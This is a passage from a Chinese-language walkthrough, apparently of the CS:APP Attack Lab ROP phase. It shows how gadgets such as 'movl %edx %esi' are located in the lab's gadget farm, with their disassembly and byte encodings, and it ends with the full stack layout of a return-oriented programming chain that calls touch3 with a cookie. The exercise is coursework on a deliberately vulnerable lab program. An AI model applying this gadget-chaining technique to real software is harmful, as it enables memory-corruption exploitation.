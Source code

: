 偏移量立即数在我们得到所有 gadget 后能一眼看出来，因此现在无需在意。

#### Step 4

此时基址存到 %rdi 中，偏移量存到 %rax 中，我们只需将 `movq %rax %rsi` 即可，但是经过查询，没有现成的指令。那么很容易想到利用多个 mov 指令最终把偏移量传到 %rsi 的做法。

我尝试所有 Dest 为 %rsi 的 movq 指令后，发现 farm 中没有这些指令。但是题目提到我们可以使用 movl 指令，以及可以使用 2 字节指令发挥 nop 指令的作用，最终发现 `movl %edx %esi`(89 d6)，后接 2 字节 nop 指令：`141940`(小端法)

```assembly
00000000004018c9 <getval_301>:
  4018c9:	b8 89 d6 20 d2       	mov    $0xd220d689,%eax
  4018ce:	c3                   	retq   
  
0000000000401912 <setval_222>:
  401912:	c7 07 89 d6 08 c0    	movl   $0xc008d689,(%rdi)
  401918:	c3                   	retq   
```

排查所有 `movl Src %esi` 指令后发现，只有 `movl %edx %esi` 存在符合要求的 gadget。

#### Step 5

按照类似 Step 4 的方法，一路向回找，直到找到 %eax。找到 `movl %ecx %edx`，这也是唯一连接 %edx 的指令：`b71840`(小端法)

```assembly
00000000004018a1 <addval_245>:
  4018a1:	8d 87 89 ca 20 c0    	lea    -0x3fdf3577(%rdi),%eax
  4018a7:	c3                   	retq   
  
00000000004018b5 <setval_486>:
  4018b5:	c7 07 89 ca 84 db    	movl   $0xdb84ca89,(%rdi)
  4018bb:	c3                   	retq   
```

然后找连接 %ecx 的指令，直接得到 `movl %eax %ecx`：`211940`(小端法)

```assembly
00000000004018ae <setval_231>:
  4018ae:	c7 07 89 c1 08 db    	movl   $0xdb08c189,(%rdi)
  4018b4:	c3                   	retq   
  
0000000000401920 <getval_201>:
  401920:	b8 89 c1 20 d2       	mov    $0xd220c189,%eax
  401925:	c3                   	retq   
```

于是得到了我们完整的指令链：

```assembly
0x00 - 0x0f: 00 01 02 03 04 05 06 07 - 08 09 00 01 02 03 04 05
0x10 - 0x1f: 06 07 08 09 00 01 02 03 - movq %rsp,%rax 的地址
0x20 - 0x2f: movq %rax %rdi 的地址    - popq %rax 的地址
0x30 - 0x3f: 偏移量立即数              - movl %eax %ecx 的地址
0x40 - 0x4f: movl %ecx %edx 的地址    - movl %edx %esi 的地址
0x50 - 0x5f: %rdi+%rsi=%rax 的地址    - movq %rax %rdi 的地址
0x60 - 0x6f: touch3 的地址            - cookie 字符串
```
